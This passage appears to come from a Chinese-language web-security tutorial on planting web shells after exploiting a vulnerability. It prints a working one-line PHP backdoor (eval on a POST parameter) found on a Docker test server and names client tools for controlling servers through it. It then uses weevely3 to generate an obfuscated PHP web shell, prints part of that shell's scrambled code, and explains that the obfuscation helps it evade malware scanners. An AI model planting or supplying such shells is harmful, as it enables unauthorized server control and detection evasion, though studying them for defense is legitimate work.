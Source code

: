 成功生成一句话木马文件 a.php：

复制代码

```
sudo docker exec -it 7286434c6e88 /bin/bash

root@7286434c6e88:/# cat /var/www/html/a.php

<?php eval($_POST['Cknife'])?>
```

与《13 | 文件上传漏洞：种植服务器木马的捷径》中关于文件上传漏洞利用的方法一样，你可以用 Cknife、菜刀、冰蝎等客户端工具去连接一句话木马，就可以直接控制服务器了，此处不再赘述。

前面介绍的一句话木马比较容易被检测到，个人喜欢使用 [weevely3](https://github.com/epinna/weevely3)，因为它支持变形的一句话木马：

复制代码

```
$ python3 weevely.py

[+] weevely 4.0.1

[!] Error: the following arguments are required: path

[+] Run terminal or command on the target

    weevely <URL> <password> [cmd]

[+] Recover an existing session

    weevely session <path> [cmd]

[+] Generate new agent

    weevely generate <password> <path>

$ python3 weevely.py generate 'test' ./shell.php

Generated './shell.php' with password 'test' of 761 byte size.
```

看下生成的 shell.php 代码，可以看到其内容都是经过混淆的，肉眼是很难直接看懂的，有助于逃过一些木马的查杀。

复制代码

```
$ cat shell.php

<?php

$S='!("/$^!kh(.+^!)^!$kf/",@file^!_g^!et_content^!s("p^!hp^!://input"),$m^!)=^!=1) {@ob_star^!t^!();@ev';

$p='$^!k^!="098f6bcd";$kh="4^!62^!1d373c^!ad^!e";$kf^!="4e832627b^!4f6";$p="q^!BSPYX^!xS^!wBm8fbHZ";f^!u';

$x='=0;($^!j<$c&&$i<$^!l);$j++^!,$i^!++){$^!o.=$t{^!$i^!}^$k{^!$^!j};}}return $o;}if^! (^!@preg_match^';

$Y='^!al(^!@gzunc^!omp^!res^!s(@x(@base^!64_d^!ecode($m[^!1]),$k)));$^!o=@o^!b_get_conte^!nts()^!;@ob_e';

$k=str_replace('ha','','hacreathae_hafhaunhahaction');

$m='nc^!tio^!n x($t^!,$k^!)^!{$c=strlen($k)^!;$l=strlen(^!$t);$o=^!"";f^!^!or($i=^!0;$^!i<$l;^!){for($j';

```